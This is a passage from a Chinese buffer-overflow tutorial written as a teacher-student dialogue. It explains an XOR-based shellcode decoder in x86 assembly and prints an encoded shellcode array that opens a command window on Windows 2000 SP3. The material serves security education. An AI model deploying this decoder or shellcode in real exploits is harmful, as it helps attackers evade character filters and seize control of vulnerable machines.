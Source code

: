 “接下来的代码是把解码的个数赋给 ecx，解码一个字节，ecx 就减 1，直至 ecx 减为 0，就表示解码结束了，跳到还原后的 ShellCode 中执行。”

```
xor ecx,ecx 
mov ecx,0x101 //要解码个数 
```

“然后，如下代码用于判断是否为标志，如果是，就不管标志，去处理后面一个字符—－减去 0x31，恢复原来的值。”

```
cmp al,0x30 //判断是否为标志
jz special_char_clean //如果是，就跳去特殊字符处理
……
special_char_clean: //特殊字符处理
lodsb //读后一位字符
sub al,0x31 //把后一位字符减去 0x31，就恢复原来的值 
```

“最后，如下代码就是异或 Key，恢复成原来的 ShellCode 并保存。”

```
xor al, 0x97 //异或 KEY = 0x97
stosb //保存解码后的 ShellCode 
```

“读程序，一定要带着思路去理解。”老师再次强调。

“嗯，我现在清楚了！”宇强对小倩说。

“好了，我们用直接替换法来对开 DOS 窗口的程序进行变形，看看编码程序和解码程序是如何使用的！”老师说道。

# 5.4.4 直接替换 DOS 窗口程序

### 5.4.4 直接替换 DOS 窗口程序

“首先，我们编码。还是用 Win2000 中文版 SP3 的开 DOS 窗口程序。”老师说道，“编码程序为 DirectExchageCMD.cpp（光盘有收录），执行效果如图 5－11。”

![](img/Q 版缓冲区溢出教程 160974.jpg)

“哦，我们把编码后的 enShellCode 直接粘贴下来就可以了。有了自动化的打印程序，好方便啊！”大家都感叹道。

“嗯，这样得到的 enShellCode 为：”

```
enShellCode [] = 
    "\xc2\x30\x4d\x7b\xa4\x57\xc7\xc7\xc7\x51"
    "\xd2\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61"
    "\xc1\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51"
    "\xd2\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c"
    "\xd3\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d"
    "\xf3\x30\x39\x71\xe0\xc5\x30\x4b\xd2\x63"
    "\xc7\x68\xc2\x67\xc2\x30\x4d\x7b\x30\x45"
    "\x7b\xbb\x30\x60\xf4\xf8\xfa\xfa\x30\x4f"
    "\xd2\x63\x30\x60\xf6\xf9\xf3\xb9\x30\x4f"
    "\xd2\x6f\x30\x60\xf4\xf8\xfa\xb5\x30\x4f"
    "\xd2\x6b\xa4\x45\x30\x50\xc2\x68\x30\x4b"
    "\xd2\x63\xc7\x30\x60\x54\x38\x96\xef\x68"
    "\x47"; 
```
